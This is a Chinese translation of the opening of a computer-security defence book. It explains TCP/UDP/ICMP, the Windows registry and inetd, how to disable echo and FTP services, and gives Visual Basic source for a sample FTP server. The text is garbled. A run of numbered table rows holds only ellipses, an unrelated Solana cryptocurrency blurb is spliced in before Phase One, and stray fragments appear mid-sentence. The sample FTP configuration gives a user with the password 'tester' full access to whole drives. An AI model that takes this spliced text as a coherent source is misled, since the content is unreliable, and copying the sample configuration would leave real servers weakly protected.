# 网络锁定完全指南：UNIX、Windows 和 Linux 安全防御，第二版


---


---


---


 | 550 | ... | ... | ... |
| 565 | ... | ... | ... |
| 568 | ... | ... | ... |
| 575 | ... | ... | ... |
| 576 | ... | ... | ... |
| 594 | ... | ... | ... |
| 604 | ... | ... | ... |
| 611 | ... | ... | ... |
| 619 | ... | ... | ... |
| 620 | ... | ... | ... |
| 626 | ... | ... | ... |
| 630 | ... | ... | ... |
| 635 | ... | ... | ... |
| 639 | ... | ... | ... |
| 647 | ... | ... | ... |
| 656 | ... | ... | ... |
| 659 | ... | ... | ... |
| 662 | ... | ... | ... |
| 671 | ... | ... | ... |
| 677 | ... | ... | ... |
| 687 | ... | ... | ... |
| 689 | ... | ... | ... |
| 690 | ... | ... | ... |
| 694 | ... | ... | ... |
| 698 | ... | ... | ... |
| 699 | ... | ... | ... |
| 709 | ... | ... | ... |
| 714 | ... | ... | ... |
| 715 | ... | ... | ... |
| 725 | ... | ... | ... |
| 726 | ... | ... | ... |
| 727 | ... | ... | ... |
| 731 | ... | ... | ... |
| 735 | ... | ... | ... |
| 738 | ... | ... | ... |
| 741 | ... | ... | ... |
| 745 | ... | ... | ... |
| 748 | ... | ... | ... |
| 752 | ... | ... | ... |
| 755 | ... | ... | ... |
| 758 | ... | ... | ... |
| 760 | ... | ... | ... |
| 763 | ... | ... | ... |
| 765 | ... | ... | ... |
| 766 | ... | ... | ... |

## 致谢

一个人若想成功，就必须与最优秀的人为伴。怀着这种想法，我首先要感谢我的妻子，感谢她在本书创作过程中给予我的持续支持与耐心。其次，我要感谢我的家人和朋友，感谢他们的鼓励与信任。

此外，我还要感谢 Neil Ramsbottom、Mike G.、Mike Down、Shadowlord、Mindgame、John Fenton、Philip Beam、J.L. du Preez、Buck Naked、SteRoiD、noOne、National Institute of Standards Technology、Marianne Swanson、Simple Nomad、The LAN God、Teiwaz、Fauzan Mirza、David Wagner、Diceman、Craigt、Einar Blaberg、Cyberius、Jungman、RX2、itsme、Greg Miller、John Vranese vich、Deborah Triant、Mentor、FBI、The National Computer Security Center、2600.com、Fyodor、Muffy Barkocy、Wintermute、dcypher、manicx、Tsutomu Shimomura、humble、The Posse、Jim Huff、Soldier、Mike Frantzen、Tfreak、Dan Brumleve、Arisme、Georgi Guninski、Satanic Mechanic、Mnemonic、The Grenadier、Jitsu、lore、416、H4G1S 的所有成员，以及 ValCom 的每一位同仁。

我还要感谢 Waterside Productions 的 David Fugate，以及 John Wiley & Sons, Inc. 的 Carol Long、Adaobi Obi、Micheline Frederick、Erica Weinstein、Ellen Reavis、Kathryn Malm、Janice Borzendowski，还有其他我可能遗漏的人。

## 致读者

本书中提到的所有已知商标或服务标记术语均已按要求大写。我们无法保证这些信息的准确性。本书中术语的使用不应被视为影响任何商标或服务标记的有效性。

本书仅用于提供信息而销售。未经目标公司书面同意，书中所述的大多数程序在美国及许多其他国家均属非法。对于本书所含信息的使用或误用，作者和出版商均不承担责任。

#### 引言

私有网络中越来越多的用户要求访问万维网（World Wide Web）、电子邮件、telnet 和文件传输协议（FTP）等互联网服务。企业希望通过互联网提供主页和 FTP 服务器供公众访问。随着网络世界的不断扩展，安全问题也日益受到关注。网络管理员和经理们担心，会将组织的机密和/或专有数据以及网络基础设施暴露给日益增多且形形色色的互联网黑客、破解者、网络朋克和电话飞客。简而言之，在线安全已经成为那些正在开发面向互联网的私有网络的组织所关注的主要问题之一。为了提供所需的保护级别，该组织不仅需要一套完善的安全策略来防止未经授权的访问；其管理者还需要全面、深入地了解构建抵御黑客攻击的坚固防线所涉及的所有要素。即使是未连接到互联网的组织，如果希望成功管理用户对网络的访问并保护敏感或机密信息，也需要建立内部安全措施。

本书探讨了所有这些问题，并明确了成功保护网络和系统免受安全威胁所需的程序。通过引入一种分阶段方法——与我的前一部著作 *黑客攻击揭秘（第二版）* 相呼应——本书概述了制定和实施有效安全策略所需采取的安全步骤。

### 新增内容

在 *黑客攻击防范（第二版）* 中，你将看到有关安全威胁和 *老虎团队* 常规操作的更新，并附有大量示例和插图。本书分为四个逻辑阶段：

## 本书读者对象

第一阶段涵盖系统基础设施工程，解释保护易受攻击端口和服务所需的过程。

第二阶段详细介绍如何防范 *黑客攻击揭秘（第二版）* 中列出的秘密漏洞渗透。

第三阶段介绍在常用网关、路由器、互联网服务器守护进程、操作系统、代理和防火墙上使用的必要黑客攻击对策，以及针对 75 大黑客攻击的对策。

第四阶段通过编制有效的安全策略，将这些安全措施系统化。

除了这些修订之外，你还可以找到 170 多种新的对策、TigerSurf 2.0 入侵防御完整套件版（见本书配套光盘）、针对 *NIX 和 Windows 的 75 大黑客攻击补丁，以及 Myparty、Goner、Sircam、BadTrans、Nimda、Code Red I/II 等病毒的清除与预防措施。

*黑客攻击防范（第二版）* 将启发所有对当今在线安全感兴趣或关注的人，并使他们理解如何最好地使系统和网络达到所需的安全水平。

更具体地说，*黑客攻击防范（第二版）* 是面向以下读者撰写的：

- 家庭或小型家庭办公室（SOHO）互联网爱好者，其 Web 浏览包括安全的在线订购、填写表单和/或传输文件、数据和信息。

- 网络工程师，其工作世界围绕安全展开。

- 安全工程师，其目标是成为安全领域的天才。

- 黑客、破解者和电话飞客，他们会发现本书既有教育意义又有趣。

- 非技术型管理人员，其工作可能取决于本书中的信息。

- 黑客技术爱好者，以及 *通天神偷*、*黑客帝国*、*黑客* 和 *剑鱼行动* 等电影的影迷。

- 聪明而好奇的青少年，读完这些章节后，他们的命运或许会变得更加清晰。

## 关于作者

John Chirillo 在 12 岁时开始了他的计算机生涯，当时经过一年的计算机自学，他编写了一款名为 Dragon's Tomb 的游戏。该游戏出版后，数千份拷贝销往 Color Computer System 市场。在随后的五年里，John 编写了多款其他软件包，包括 The Lost Treasure（游戏编写教程）、Multimanager（会计、库存和财务管理软件套件）、Sorcery（角色扮演冒险游戏）、PC Notes（用于教授从代数到微积分数学知识的图形用户界面）、Falcon's Quest I 和 II（图形化、Diction 密集的冒险游戏），以及 Genius（一套完整的基于 Windows 的点击式操作系统）等。后来，John 获得了多种编程语言认证，包括 QuickBasic、VB、C++、Pascal、Assembler 和 Java。之后，John 开发了 PC Optimization Kit（可将速度提升至标准 Intel 486 芯片的 200%）。

在经营 Software Now 和 Geniusware 两家公司之后，John 成为了一名专注于安全和分析的顾问，为多家知名公司提供安全分析、嗅探器分析、LAN/WAN 设计、实施和故障排除服务。在此期间，John 获得了众多网络互连认证，包括 Cisco 的 CCNA、CCDA、CCNP、Intel Certified Solutions Consultant、Compaq ASE Enterprise Storage、UNIX，以及待完成的 CISSP 等。他目前是一家技术管理公司的高级互联网工程师。


 ## Solana 是什么？

#### 我们能期待什么？

Solana 是高性能区块链平台，专为去中心化应用 (DApps) 和加密货币设计，以其极快的交易速度和低手续费闻名。

- 优势：
  - 闪电般的交易速度
  - 超低手续费
  - 强大的生态系统
  - 高度可扩展性
- 劣势：
  - 技术复杂性高
  - 过往有停机纪录
  - 硬件要求较高

# 第一阶段

## 保护端口与服务

本书的前作 *《黑客攻击揭秘，第二版》* 定义并描述了计算机端口及其服务，并解释了其中一些为何可能存在安全漏洞。对于未读过该书的读者，以及作为一般性提醒，计算机端口本质上是信息进出计算机的通道。这些输入/输出端口是数据在输入或输出设备与处理器之间传输的通道。就 IP 而言，这是上层进程从下层获取信息的过程。一般来说，扫描端口是为了寻找开放的、或称为"监听"的端口，即可能容易受到攻击的端口。安全分析工具如端口扫描器可以在几分钟内轻松扫描计算机上超过 65,000 个端口中的每一个。然而，它们通常只仔细检查前 1,024 个，这些被标识为*知名端口*（其余端口可描述为*隐藏端口*）。这 1,024 个知名端口预留给响应请求的系统服务作为联络端口。互联网号码分配局 (IANA) 的官方定义指出，在大多数系统上，知名端口只能由系统（或 root）进程，或由特权用户执行的程序使用。端口在 TCP [RFC793] 中用于命名承载长期会话的逻辑连接的端点。为了向未知的请求者提供服务，定义了服务联络端口。该联络端口有时被称为"知名端口"。当端口扫描器扫描计算机端口时，在最一般的方法中，它会逐一询问端口是开放还是关闭。计算机不知就里，自动发送响应，向攻击者提供所请求的信息。这可以——而且，如果操作得当，确实会——在无人知晓的情况下进行。

本书旨在建立坚实的安全基础。为此，并依照 *《黑客攻击揭秘，第二版》* 中描述的"老虎团队"方法，本书分为我所谓的"老虎团队流程"，即一系列步骤（阶段完成），以最合理的顺序呈现，以便成功强化对安全漏洞的防御。

第一阶段的目的是介绍一些保护上述端口和服务的技术。首先，我们探讨保护知名端口和强化那些隐藏端口的方法。在此基础上，我们深入探讨发现和扫描的对策。正如 *《黑客攻击揭秘，第二版》* 所解释的，发现是攻击者进行的初始"足迹收集"或信息收集，以促进制定导致成功黑客攻击的计划。目标端口扫描通常是这一发现过程中的第二个主要步骤。

# 第 1 章

## 常见端口与服务

本章的目的是介绍用于保护知名端口列表中可能存在漏洞的端口的技术，包括 TCP 和 UDP 服务。TCP 和 UDP 端口分别在 RFC793 和 RFC768 中阐明，它们命名了逻辑连接的端点，这些连接要求在系统之间进行服务会话。主要来说，这些列表指定了服务守护进程使用的端口作为其联络端口。再次强调，联络端口就是被公认的"知名端口"。IP 存在许多弱点，其中之一是不可靠的数据包交付——数据包可能由于传输错误、路由错误或吞吐量下降而丢失。传输控制协议 (TCP) 通过提供可靠的、面向流的连接来帮助解决这些问题。事实上，TCP/IP 主要基于 TCP 功能，而 TCP 功能又基于 IP，共同构成 TCP/IP 协议套件。这些特征描述了通信建立的面向连接过程。

TCP 可靠服务交付有许多组成部分。以下是一些要点：

- **数据流。** 数据被系统化并以比特流的形式传输，组织成 8 位组或字节。当这些比特被接收时，以相同的方式传递。

- **缓冲流控制。** 当数据以流的形式传递时，协议软件可能会将流分割以填充特定的缓冲区大小。TCP 管理这一过程，确保避免缓冲区溢出。在此过程中，可能会间歇性地暂停发送速度快的站点，以便与接收速度慢的站点保持同步。

### 虚电路。

当一个站点请求与另一个站点通信时，两个站点都会通知它们的应用程序，并*同意*进行通信。如果这些站点之间的链路或通信失败，两个站点都会获知故障情况，并通知它们各自的软件应用程序。在这种情况下，将尝试协调重试。

### 全双工连接。

流传输同时双向进行，以减少整体网络流量。

TCP 使用 32 位序列号来组织和计数数据流中的字节。每个 TCP 数据包包含一个起始序列号（第一个字节）和一个确认号（最后一个字节）。一种称为*滑动窗口*的概念被实施以提高流传输的效率。滑动窗口通过在需要确认之前允许多个数据包的传输，更有效地使用带宽。

作为 TCP 滑动窗口的示例，发送方可能需要按顺序发送字节（1 到 8）到窗口大小为 4 的接收站。发送站将前 4 个字节放入窗口并发送，然后等待确认（ACK=5）。该确认指定前 4 个字节已收到。然后，假设其窗口大小仍为 4 且它也在等待下一个字节（字节 5），发送站将滑动窗口向右移动 4 个字节，并发送字节 5 到 8。在收到这些字节后，接收站发送确认（ACK=9），表示它正在等待字节 9。然后该过程继续。在任何时候，接收方可以指示窗口大小为 0，在这种情况下，发送方将不会发送更多字节，直到窗口大小大于 0。导致这种情况发生的典型原因是*缓冲区溢出*。

TCP 使一台机器上的不同应用程序能够同时通信。TCP 使用端口号来区分接收站的每个目的地。一对*端点*标识两个站点之间的连接。通俗地说，这些端点被定义为两个站点的应用程序在通信时的连接；TCP 将其定义为此格式的一对整数：(主机, 端口)。*主机*是站点的 IP 地址，*端口*是该站点上的 TCP 端口号。一个站点端点的示例是：

```
206.0.125.81:1026

(host)     (port)
```

两个站点在通信期间端点的示例是：

| 站点 1 | | 站点 2 | |
|---|---|---|---|
| 206.0.125.81:1022 | | 207.63.129.2:26 | |
| (主机) | (端口) | (主机) | (端口) |

这项技术在 TCP 中非常重要，因为它通过为每个站点连接分配单独的端口来实现同时通信。

当 TCP 会话期间两个节点之间建立连接时，*三次握手*对于连接两端的无歧义同步是必要的。此过程允许双方商定在通信流之间来回跟踪字节的方法。基本上，第一个节点通过发送带有序列号和 SYN 位的数据包来请求通信。第二个节点用包含序列号加一的确认（ACK）进行响应，并将其自己的序列号发回给第一个节点。此时，第一个节点将响应，两个节点之间的通信将继续。当没有更多数据要发送时，TCP 节点可以发送 FIN 位，表示关闭控制信号。在这个交叉点，两个节点将同时关闭。

用户数据报协议 (UDP) 以无连接方式运行；也就是说，它提供与 IP 相同的不可靠的数据报交付服务。与 TCP 不同，UDP 不发送 SYN/ACK 位来确保传输的交付和可靠性。此外，UDP 不包括流控制或错误恢复功能。因此，UDP 消息可能会丢失、重复或到达顺序错误。而且由于 UDP 包含更小的报头，它消耗的网络吞吐量比 TCP 少，因此可能比接收站处理速度更快地到达。

UDP 通常用于更高层协议提供必要的错误恢复和流控制的情况。一些使用 UDP 的流行服务器守护进程包括：

- 网络文件系统 (NFS)
- 简单网络管理协议 (SNMP)
- 普通文件传输协议 (TFTP)
- 域名系统 (DNS)

UDP 消息称为*用户数据报*。这些数据报被封装在 IP 中，包括 UDP 报头和数据，在互联网上传输。UDP 在用户发送的数据上添加一个报头，并将其传递给 IP。然后 IP 层在从 UDP 接收的内容上添加一个报头。最后，网络接口层在发送数据报从一台机器到另一台机器之前，将其插入一个帧中。

UDP 提供*多路复用*（将多个信号同时传输到单个物理通道的输入流的方法）和


 *解复用*（将已经复用到公共流中的多个流实际分离回多个输出流）在协议和应用软件之间进行。

复用和解复用，就UDP而言，是通过端口实现的。每个站点应用程序在发送UDP数据报之前必须协商一个端口号。当UDP在数据报的接收端时，它会检查头部（目标端口字段）以确定其是否与站点当前正在使用的某个端口匹配。如果该端口正在被某个监听应用程序使用，则传输继续进行；如果该端口未被使用，则会生成一个ICMP错误消息，并且该数据报被丢弃。

ICMP消息封装是一个双重过程。这些消息被封装在IP数据报中，而数据报又被封装在帧中，当它们在互联网上传输时。ICMP使用与数据报相同的不可靠通信方式。这意味着ICMP错误消息也可能丢失或重复。

ICMP格式包括一个*消息类型*字段，表示消息的类型；一个*代码*字段，包含有关类型的详细信息；以及一个*校验和*字段，提供与IP校验和相同的功能。当ICMP消息报告错误时，它会包含导致指定问题的数据报的头部和数据。这有助于接收站了解哪个应用程序和协议发送了该数据报。

有许多有用的ICMP消息类型：

**回显应答（类型0）/回显请求（类型8）。** 这是测试两个节点之间可能通信的基本机制。如果接收站可用，则被要求回复PING，它是Packet INternet Groper的缩写。PING是一种用于测试特定计算机IP地址是否活跃的协议；它使用ICMP向其IP地址发送数据包并等待响应。有趣的是，PING源自潜艇主动声纳，其中声音信号被称为ping，被广播出去。周围物体通过其对声音的反射而被发现。PING可以从路由器控制台或远程终端窗口、Microsoft Windows中的MS-DOS窗口，或*NIX中的终端控制台会话执行。

**目标不可达（类型3）。** 此消息类型有多种发出情况，包括当路由器或网关不知道如何到达目标时，当协议或应用程序未激活时，当数据报指定了不稳定的路由时，或当路由器必须对数据报进行分片而无法做到时，因为设置了不分片标志。

**源抑制（类型4）。** 这是数据报传送的基本流量控制形式。当数据报到达接收站的速度过快而来不及处理时，数据报将被丢弃。在此过程中，对于每一个已被丢弃的数据报，都会向发送站传递一个ICMP类型4消息。源抑制消息实际上成为请求，要求降低发送数据报的速率。然而，源抑制消息不会产生反向效果，即发送站不会因此提高传输速率。

### 路由重定向（类型5）

路由信息会定期交换以适应网络变化并保持路由表的更新。当路由器识别到某个主机正在使用非最优路由时，路由器会在将数据报转发到目标网络的同时发送一个ICMP类型5消息。因此，路由器只能向直接连接到其网络的主机发送类型5消息。

### 数据报超时（类型11）

如果网关或路由器因为生存时间（TTL）字段被设置为0而被迫丢弃数据报，它将发出一个类型11消息。如果路由器在拦截数据报时检测到TTL=0，它将被强制丢弃该数据报并发送一个ICMP类型11消息。

### 数据报参数问题（类型12）

指明数据报头部存在问题，阻碍了进一步处理。该数据报将被丢弃，并发送一个类型12消息。

### 时间戳请求（类型13）/时间戳应答（类型14）

这些提供了一种计算网络延迟的方法。发送站注入一个发送时间戳（消息发送的时间），接收站将附加一个接收时间戳，以计算估计的延迟时间并协助其内部时钟同步。

### 信息请求（类型15）/信息应答（类型16）

作为反向地址解析协议（RARP）的替代方案——在RARP中，计算机可以将其MAC地址提供给RARP服务器以请求其IP地址——站点使用类型15和类型16来获取它们所连接网络的互联网地址。发送站将发出该消息，包含互联网地址的网络部分，并等待响应，其中主机部分（其IP地址）被填写。

### 地址掩码请求（类型17）/地址掩码应答（类型18）

类似于信息请求/应答，站点可以发送类型17和类型18消息来获取它们所连接网络的子网掩码。站点可以将此请求提交给已知节点，如网关或路由器，或向网络广播该请求。

回顾一下，TCP连接是通过同步连接双方的序列号和确认号，同时交换TCP窗口大小来初始化的。这被称为*面向连接的可靠服务*。在光谱的另一端，UDP提供了一种*无连接数据报服务*，提供不可靠的、尽力而为的数据传输。这意味着不保证数据报到达，也不保证所传递数据包的正确顺序。

当两个系统通信时，TCP和UDP端口成为规定这些服务"会话"的逻辑连接的端点。这些端点指定了特定服务守护进程使用的端口作为其联系端口，即"知名端口"。在本章中，我们将重点关注*Hack Attacks Revealed, Second Edition*中定义的、可能存在漏洞的端口。这些包括端口7：echo，端口11：systat，端口15：netstat，端口19：chargen，端口21：FTP，端口23：telnet，端口25：SMTP，端口53：domain，端口67：bootp，端口69：TFTP，端口79：finger，端口80：http，端口109：pop2，端口110：pop3，端口111：portmap，端口135：loc-serv，端口137：nbname，端口138：nbdatagram，端口139：nbsession，端口161：SNMP，端口512：exec，端口513：login，端口514：shell，端口514：syslog，端口517：talk，端口518：ntalk，端口520：route，以及端口540：uucp。

## 保护知名端口

在深入探讨特定端口之前，先简要解释一下Windows注册表和*NIX互联网服务器数据库（inetd）守护进程。Inetd实际上是一个*守护进程控制进程*，负责处理*NIX系统上运行的网络服务。使用`/etc/inetd.conf`文件进行配置，该守护进程控制服务激活，包括ftp、telnet、login等。虽然本书按照Linux系统在`/etc/`目录中的实现方式来引用inetd.conf文件，但需要注意的是，每种*NIX版本可能对该文件有不同的位置；例如，AIX使用`/usr/sbin`目录 keyed_directory，`Digital`使用`/usr/sbin`，HP-UX 9和10分别使用`/etc`和`/usr/lbin`，IRIX使用`/usr/etc`，Solaris使用`/usr/sbin`，而SunOS使用`/usr/etc`。

在Windows系统中，系统注册表在某种程度上与*NIX inetd守护进程类似，是一个分层数据库，存储了所有系统设置。它已经取代了控制旧版Windows 3.x的所有.ini文件。*system.ini*、*win.ini*和*control.ini*中的所有系统配置信息都包含在注册表中。所有Windows程序也将它们的初始化和配置数据存储在那里。

> **Tiger提示** 记住，在进行任何调整之前，务必始终备份inetd.conf文件和Windows注册表。

需要注意的是，注册表不应使用任何标准编辑器来查看或编辑；必须使用Windows附带的程序，Windows 95、98和XP使用*regedit*，Windows 2000、NT4和NT5使用*regedit32*。该程序不在"开始"菜单中列出，事实上它隐藏在您的Windows目录中。要运行该程序，单击"开始"，然后单击"运行"，

然后在输入字段中键入 **regedit**（适用于 Win9x）或 **regedit32**（适用于 WinNT）。这将启动注册表编辑器。

> **Tiger 注意：** 在尝试实施这些方法或软件套件之前，备份系统注册表是非常重要的。注册表备份软件可从 TuCows（www.tucows.com）和 Download（www.download.com）下载。

注册表各文件夹的内容如下：

**HKEY_CLASSES_ROOT。** 包含有关拖放操作的软件设置；处理快捷方式信息和其他用户界面信息。每个已定义的文件关联都包含一个子键。

**HKEY_CURRENT_USER。** 包含有关当前登录用户的信息，包括：

- **AppEvents：** 包含为系统和应用程序声音事件分配的播放声音设置。
- **Control Panel：** 包含与 Windows 3.xx 中 system.ini、win.ini 和 control.ini 中定义的类似设置。
- **InstallLocationsMRU：** 包含启动文件夹程序的路径。
- **Keyboard Layout：** 指定当前键盘布局。
- **Network：** 提供网络连接信息。
- **RemoteAccess：** 列出当前拨号网络的登录位置信息（如适用）。
- **Software：** 显示当前登录用户的软件配置设置。

**HKEY_LOCAL_MACHINE。** 包含有关此特定计算机所有用户通用的硬件和软件设置信息，包括：

- **Config：** 列出配置信息/设置。
- **Enum：** 列出硬件设备信息/设置。
- **Hardware：** 显示串行通信端口信息/设置。
- **Network：** 提供用户当前登录的网络信息。
- **Security：** 列出网络安全设置。
- **Software：** 显示特定软件信息/设置。
- **System：** 列出系统启动和设备驱动程序信息以及操作系统设置。

**HKEY_USERS。** 包含有关登录到同一 Windows 95 系统的每个用户的桌面和用户设置信息。每个用户在此标题下都有一个子键。如果只有一个用户，则子键为 .default。

**HKEY_CURRENT_CONFIG。** 包含有关当前硬件配置的信息，指向 HKEY_LOCAL_MACHINE。

**HKEY_DYN_DATA。** 包含有关系统上安装的即插即用设备的动态信息。此处的数据会在设备动态添加或移除时发生变化。

### 端口 7：Echo

echo 服务与 TCP 和 UDP 端口 7 相关联。对于 TCP，该服务监听端口 7 的连接，然后将接收到的任何数据发送回去。对于 UDP 端口 7 数据报服务，服务器会将接收到的任何数据在应答数据报中发送回去。此服务通常用于创建拒绝服务（DoS）攻击。echo 漏洞的一个示例是攻击者连接到端口 7（echo），传输的字符通常会被发送（回显）回源地址。这可以被滥用，例如，通过将系统的 echo 服务与 chargen 服务（参见端口 19）形成循环，或者远程通过伪造数据包从一台机器发送到另一台机器（"反弹"攻击）。

标准通信策略可能不需要 echo 服务，因为它只是允许对从 TCP 或 UDP 连接请求发送的数据进行回复。在这种情况下，建议禁用此服务以避免潜在的拒绝服务（DoS）攻击。但是，在尝试禁用此服务之前，你应该检查是否有任何专有软件——例如系统监控套件或自定义故障排除包——需要它。

- 要在 *NIX 中禁用 echo 服务，只需编辑 /etc/inetd.conf 文件并注释掉 echo 条目，如图 1.1 所示。然后，重启整个系统或仅重启 inetd 进程。或者，例如，如果你运行的是某个 Linux 版本，你可以使用以下命令简单地执行 inetd 配置重载：killall -HUP inetd。

- 要使 Windows 系统中的 echo 服务（如存在）失效，你必须通过从"开始/运行"命令提示符运行 regedit.exe 来编辑系统注册表。然后，搜索 TCP/UDP Echo 条目，并将其值更改为"false"或零（参见图 1.2）。完成后，重启系统并验证你的修改。

如果你对修改 Windows 系统注册表没有把握或感到不安，请参阅附录 A 了解有关自定义安全软件或"安全软件"的详细信息。在这种情况下，使用 TigerWatch，你可以主动监控和锁定系统端口和服务，而无需干预注册表或手动禁用服务。稍后，我们将详细回顾 TigerWatch 及其他程序。

### 端口 11：Systat 和端口 15：Netstat

systat 服务旨在显示机器当前运行进程的状态。通过远程启动，systat 提供进程状态和用户信息。本质上，与此服务关联的守护进程提供了当前正在运行的软件类型的信息，并提供了目标主机上的用户信息。netstat 服务旨在显示机器的活动网络连接以及有关网络子系统的其他有用信息，例如协议、地址、已连接的套接字和 MTU 大小。标准 Windows 系统的常见输出会显示哪些服务正在*监听*入站连接、哪些地址可能已建立连接等。

与 systat 类似，netstat 可以为攻击者提供活动网络连接和有关网络的其他有用信息。


 **图 1.4** 在 *NIX 下禁用 FTP 服务。

分别适用于 Windows NT 和 9x/2K。在 Windows NT 中修改启动配置听起来很简单，但您必须以具有相应权限的身份登录才能执行此操作。从开始/设置/控制面板，双击服务图标，然后向下滚动找到 FTP 发布服务，如图 1.5 所示。

此时，通过鼠标点击高亮 FTP 发布服务；然后单击服务功能窗口右侧的停止按钮选项（见图 1.6）。在允许 Windows

**图 1.5** 在 Windows NT 中定位 FTP 服务守护进程。

**图 1.6** 在 Windows NT 中手动禁用 FTP 服务守护进程。

停止该服务后，FTP 守护进程将保持非活动状态，直到下次重新启动，具体取决于下一步操作。此步骤包括单击启动按钮（在"服务"窗口右侧），同时高亮显示 FTP 发布服务。在"启动配置"新窗口中，选择"已禁用"并单击"确定"以永久禁用该服务（如图 1.7 所示）。

通常，在 Windows 9x/ME/2K/XP 系统上，若要永久禁用 FTP 服务守护进程，需要通过该服务的专用

**图 1.7** 在 Windows NT 中永久禁用 FTP 服务守护进程。

**图 1.8** 在 Windows 9x/2K 中终止 FTP 服务守护进程。

管理模块进行操作。另一种方法是通过开始/设置/控制面板选择添加/删除程序图标，从系统中永久删除该服务。但是，如果您对这些选项感到不适，或希望临时禁用该服务，您随时可以同时按下 Ctrl+Alt+Del 键调出关闭程序任务管理器。此时，只需向下滚动，找到然后高亮显示 FTP 进程。接着，按下结束任务按钮终止 FTP 服务，直到系统重新启动（图 1.8）。

如前所述，当禁用 FTP 服务不可行时，还有其他方法来保护它。让我们探讨一些 FTP 漏洞利用的防御措施：

**FTP 横幅修改。** 建议修改 FTP 守护进程横幅，因为它可能会向攻击者泄露发现数据。此类信息的范围因程序而异，但可能包括守护进程类型、版本和所在平台。例如，请看图 1.9：通过这个简单的

**图 1.9** FTP 横幅发现。

**图 1.10** NT 服务器上的 FTP 连接限制。

FTP 请求，已经发现了一些重要信息，例如目标系统名称、FTP 守护进程类型和版本。实际上，攻击者现在所需要的只是搜索该版本的已知漏洞，然后发起攻击。

> 某些软件包可能不允许修改横幅。

**FTP 连接限制。** FTP 最大连接限制构成了一种有趣的威胁。许多程序默认将此选项设置为较高的数值（见图 1.10）。修改连接限制时，请务实地进行计算。例如，考虑服务器实际能处理多少连接流。在本例中，即使是 200 个并发会话也会让我的 NT 测试服务器不堪重负。一些黑客正是喜欢这样做，通过伪造多个会话请求。

**匿名连接状态。** 除非您的个人/商业策略要求，否则应避免允许匿名 FTP 连接（图 1.11）。还要注意，许多 FTP 软件包，尤其是 *NIX，默认允许此类连接。如果您决定必须批准匿名连接，请务必严格保护文件和目录权限。在 *NIX 平台上，请务必精简 FTP /etc/passwd 文件。

**图 1.11** 匿名 FTP 连接状态。

**加密。** 还需要多说吗？避免使用明文密码，因为它们可能被嗅探并重新使用。请改用加密方法。向您的供应商咨询兼容的系统服务推荐加密软件包。本书后面将详细介绍一些密码破解补救措施和加密方法。

**权限。** 为每个用户修改文件、目录、上传和下载 FTP 权限至关重要。请务必反复检查您的设置以确保可靠性。根据用户数量，这可能需要一些时间；但这是值得花费的时间。此外，特别是在 *NIX 平台上，禁用 chmod 选项以及目录浏览。在 Windows 系统上，注意潜在狡猾的 Guest 帐户——在大多数情况下，它应该被禁用。

**访问控制。** 明智的做法是使用访问控制服务和防火墙限制对 FTP 服务的访问。本书后面将介绍 Windows 和 *NIX 的具体配置类型。

### **Tiger FTP**

FTP 软件守护进程通常随 *NIX 操作系统一起打包提供。但是，寻求 FTP 配置以及偏好完全控制的家庭和/或私人 Windows 用户无需担心。以下是可在您自行决定的情况下使用的 FTP 软件包。使用它，您可以控制功能，为朋友和家人提供安全的 FTP 访问。功能包括可用命令选项、文件和目录权限以及会话流选项。TigerFTPServ（见图 1.12）可供您以任何方式修改、分发和利用。该程序还包括一个会话嗅探器，所有连接请求和事务状态均实时显示。为避免混淆并确保安全，所有用户权限均通过 TFTPServ.ini 控制：

```
[Settings]
Version=1.0.0
[Users]
Users=1
Name1=test
Pass1=tester
DirCnt1=2
Home1=C:\
Access1_1=c:\ ,RWXLMS
Access1_3=d:\ ,RWXLMS
```

您可以修改主窗体 *FrmFTP.frm*，以控制用户连接并自定义主程序模块的外观和感觉。

**图 1.12** TigerFTPServ 主窗体和程序界面。

#### FrmFTP.frm

```
Public MainApp As MainApp

Private Sub Form_Unload(Cancel As Integer)
   MainApp.Closing
   Set MainApp = Nothing
End Sub

Private Sub EndCmd_Click()
   Dim i As Integer
   For i = 1 To MAX_N_USERS
      If users(i).control_slot <> INVALID_SOCKET Then
         retf = closesocket(users(i).control_slot)
         Set users(i).Bash = Nothing
      End If
      If users(i).data_slot <> INVALID_SOCKET Then
         retf = closesocket(users(i).data_slot)
      End If
   Next
   retf = closesocket(ServerSlot)
   If SaveProfile(App.Path & "\ tftpserv.ini", True) Then
   End If
   Unload Me
End Sub

Private Sub mEndCmd_Click()
Dim i As Integer
   For i = 1 To MAX_N_USERS
      If users(i).control_slot <> INVALID_SOCKET Then
         retf = closesocket(users(i).control_slot)
         Set users(i).Bash = Nothing
      End If
      If users(i).data_slot <> INVALID_SOCKET Then
         retf = closesocket(users(i).data_slot)
      End If
   Next
   retf = closesocket(ServerSlot)
   If SaveProfile(App.Path & "\ tftpserv.ini", True) Then
   End If
   Unload Me
End Sub

Private Sub mSetup_Click()
    UserOpts.Show 1
End Sub
```

窗体 *AddEditDir.frm* 用于添加可用 FTP 目录以供文件下载。

#### AddEditDir.frm

```
Option Explicit

Private Sub AddEditCnx_Click()
    UserOpts.Tag = ""
    Unload Me
End Sub

Private Sub AddEditDone_Click()
    UserOpts.Tag = DirPath.Text
    Unload Me
End Sub

Private Sub BrowseDir_Click()
    AddEditDir.Tag = DirPath.Text
    FindFolder.Show 1
    DirPath.Text = AddEditDir.Tag
End Sub
```

下一个窗体 *FindFolder.frm* 用作搜索可用于下载文件的目录的用户界面。

#### FindFolder.frm

```
Option Explicit
Dim Drvs(32) As String
Dim LastStr As String
Dim DrvC As Integer

Private Sub FldrDone_Click()
    Form_Terminate
```


 End Sub

Private Sub FolderList_Click()
Dim s As String, t As String, s2 As String
Dim i As Integer
  i = FolderList.ListIndex + 1
  s2 = FolderList.Text
  If Mid(s2, 1, 1) = "[" Then
    s2 = Mid(s2, 2, 2) & "\"
    DirPath = s2
  Else
    If FolderList.Text = ".." Then
      s = Left(LastStr, Len(LastStr) - 1)
      Do Until Right(s, 1) = "\"
        s = Left(s, Len(s) - 1)
      Loop
      s2 = s
      DirPath = s2
    Else
      s2 = DirPath & FolderList.Text & "\"
      DirPath = s2
    End If
  End If
  LastStr = s2
  FolderList.Clear
  s = FindFile("*.*", s2)
  Add_Drives
End Sub

```
Private Sub Form_Load()
Dim s As String
  GetSystemDrives
  If AddEditDir.Tag <> "" Then
    LastStr = AddEditDir.Tag
    DirPath = LastStr
    s = FindFile("*.*", AddEditDir.Tag)
  End If
  Add_Drives
End Sub
```

```
Private Sub Add_Drives()
Dim x As Integer
  For x = 1 To DrvC
    FolderList.AddItem "[" & DrvS(x) & "]"
  Next
End Sub
```

```
Private Sub Form_Terminate()
  AddEditDir.Tag = DirPath.Text
  Unload Me
```

End Sub

Private Sub GetSystemDrives()
Dim rtn As Long
